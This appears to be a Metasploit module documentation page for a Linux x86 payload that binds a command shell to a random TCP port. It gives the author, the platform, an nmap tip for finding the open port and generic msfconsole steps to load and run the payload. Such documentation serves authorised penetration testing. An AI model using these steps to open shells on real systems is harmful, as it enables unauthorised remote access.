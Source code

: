 ## Linux Command Shell, Bind TCP Random Port Inline

Listen for a connection in a random port and spawn a command 
shell. Use nmap to discover the open port: 'nmap -sS target 
-p-'.


## Module Name
payload/linux/x86/shell_bind_tcp_random_port

## Authors
Geyslan G. Bem <geyslan[at]gmail.com>





## Platforms
linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/shell_bind_tcp_random_port
msf payload(shell_bind_tcp_random_port) > show targets
   ... a list of targets ...
msf payload(shell_bind_tcp_random_port) > set TARGET <target-id>
msf payload(shell_bind_tcp_random_port) > show options
   ... show and set options ...
msf payload(shell_bind_tcp_random_port) > run
```
    
    